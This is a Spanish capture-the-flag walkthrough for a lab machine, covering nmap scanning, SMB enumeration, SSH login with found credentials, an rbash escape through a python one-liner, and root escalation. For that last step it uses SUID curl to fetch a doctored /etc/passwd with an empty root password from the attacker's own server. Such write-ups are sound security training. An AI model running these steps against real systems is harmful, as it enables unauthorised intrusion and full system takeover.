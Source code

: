 # Máquina chmod-4755

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,139,445 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### SMB

enumeración de compartidos:

![alt text](image-2.png)

enumeración de usuarios:

enum4linux 172.17.0.2

![alt text](image-3.png)

Fuerza bruta:

![alt text](image-4.png)

Iniciamos sesión al recurso compartido con smbclient, y observamos el note.txt

![alt text](image-5.png)

### Intrusión

Me conecté mediante ssh con las credenciales rabol : share_secret_only

![alt text](image-6.png)

como tenemos rbash 

ejecutamos:

python3 -c "import subprocess; subprocess.run('/bin/bash', shell=True)"

y luego

export PATH=/bin

### Escalar privilegios

find / -perm -4000 2>/dev/null

![alt text](image-7.png)


como tenemos curl disponible, voy a copiar el contenido de /etc/passwd
y en mi maquina atacante me creo un archivo passwd donde pego el contenido
de /etc/passwd de la maquina comprometida, modificando la primera linea
dejandola asi:

antes de modificar:	root:x:0:0:root:/root:/bin/bash
despues de modificar:	root::0:0:root:/root:/bin/bash

ahora desde mi maquina atacante levanto un servidor con python 

python3 -m http.server

luego, desde la maquina comprometida, como podemos ejecutar /usr/bin/curl como root
vamos a descargar el archivo que modificamos en la maquina atancante y guardarlo
en /etc/passwd, asi conseguimos modificar el contenido del archivo original

![alt text](image-9.png)

![alt text](image-8.png)

despues de validar los cambios, vemos que en efecto sobreescribimos el original
asi que ahora podemos escalar a root.

![alt text](image-10.png)
